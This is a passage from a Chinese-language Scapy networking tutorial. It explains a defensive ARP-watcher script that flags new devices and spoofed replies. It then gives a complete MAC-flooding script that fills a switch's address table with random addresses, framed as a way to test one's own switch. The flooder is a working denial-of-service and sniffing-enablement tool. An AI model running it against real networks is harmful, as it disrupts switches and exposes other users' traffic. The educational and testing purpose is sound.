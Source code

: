 ```
                                        pkt[ARP].psrc + \
                                        " (old " + ip_mac[pkt[ARP].psrc] + ")"
                                ip_mac[pkt[ARP].psrc] = pkt[ARP].hwsrc    

signal(SIGINT, sig_int_handler)    

if len(sys.argv) < 2:
        print sys.argv[0] + " <iface>"
        sys.exit(0)    

try:
        fh = open(arp_watcher_db_file, "r")
except IOError:
        print "Cannot read file " + arp_watcher_db_file
        sys.exit(1)    

for line in fh:
        line.chomp()
        (ip, mac) = line.split(" ")
        ip_mac[ip] = mac    

sniff(prn=watch_arp,
        filter="arp",
        iface=sys.argv[1],
        store=0)

```

开始我们定义了一个信号处理函数`sig_int_handler()`，当用户中断程序时该函数会被调用。该函数会在`ip_mac`字典中，将所有已知的`IP`和`MAC`地址对应关系保存到一个文件当中。一开始我们读取这些`ARP db`文件，用目前已知的所有对应关系来初始化程序，若文件无法读取则退出。然后我们将文件内容一行一行地循环读取，把每一行分割为`IP`和`MAC`地址，将它们保存到`ip_mac`字典中。我们再调用已知的`sniff()`函数，对每一个接收到的`ARP`数据包，调用回调函数`watch_arp`。

`watch_arp`函数是整个程序中的核心逻辑部分。当嗅探到的数据包是`is-at`数据包时，则该数据包为一个`ARP`响应。紧接着我们首先检查IP是否存在于`ip_mac`字典中。如果我们没有发现对应条目，则其为一个新设备，并在屏幕上显示一条信息。否则我们将数据包中的`MAC`地址与字典中的`MAC`相比较，如果不同则响应很可是伪造的，我们也在屏幕上显示一条消息。在这两种情况下，都会用新的信息来更新字典。

0x04 MAC-Flooder
=====

交换机和其他计算机一样，具有有限的内存，交换机中存放`MAC`地址信息的表格也同样如此，该表格记录哪个`MAC`地址对应哪个端口及其内部的`ARP`缓存。当交换机的缓冲区溢出时，它们的反应就会有些古怪。这将会导致交换机拒绝服务，以至于放弃交换行为而变得像正常的集线器。在集线器模式下，整体的高流量不会是你遇到的唯一问题，因此在没有附加操作下，所有已连接的计算机都会接收到完整的流量。你应该测试一下的你的交换机在这种意外情况下是如何反应的，接下来的脚本就可以做到这一点。它会产生随机的`MAC`地址，并将它们发送到你的交换机中，直到交换机的缓冲区被填满。

```
#!/usr/bin/python    

import sys
from scapy.all import *    

packet = Ether(src=RandMAC("*:*:*:*:*:*"),
                        dst=RandMAC("*:*:*:*:*:*")) / \
                        IP(src=RandIP("*.*.*.*"),
                            dst=RandIP("*.*.*.*")) / \
                        ICMP()    

if len(sys.argv) < 2:
        dev = "eth0"
else:
        dev = sys.argv[1]    

print "Flooding net with random packets on dev " + dev    

sendp(packet, iface=dev, loop=1)

```
